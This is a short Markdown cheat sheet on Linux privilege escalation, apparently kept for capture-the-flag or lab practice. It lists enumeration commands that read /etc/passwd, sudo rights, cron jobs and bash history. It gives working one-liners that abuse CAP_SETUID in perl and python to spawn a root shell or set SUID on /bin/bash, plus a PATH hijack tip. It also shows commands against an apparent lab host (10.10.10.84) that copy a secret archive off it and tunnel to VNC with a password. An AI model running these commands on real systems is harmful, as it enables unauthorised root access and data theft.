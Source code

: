# Linux Priviledge Escalation

------------------------------------------------------

### Initial Commands
`whoami;id`

`cat /etc/passwd`

`sudo -l`

`crontab -l`


### Find Setuid enabled Programs
`find / -perm -u=s -type f 2>/dev/null`

### Capabilities search 
`getcap -r / 2>/dev/null`

### If perl or python have CAP_SETUID capabilities, run following commands and then execute the file(for python)

* Perl: 
`perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

* Python:
`echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py`

### For MySql Service:
Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

### Other useful commands and tips

* `df` - to see free disk space of all mounted devices

* Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

* `export PATH=/tmp:$PATH` 

* `cat ~/.bash_history`

* Always check the home and tmp directories.

scp charix@10.10.10.84:/home/charix/secret.zip .

vncviewer 127.0.0.1:5000 -passwd secret 

ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84  

cat /etc/crontab

### GIT Commands:

# Whenever you see .git files try out these commands 

* `git log`: Display git history
* `git log --oneline` : Display git history with one commit per line
* `git log -p` : Display changes made in files in each commit.
* `git reset HEAD^` : Undo the commits (Very Imp).


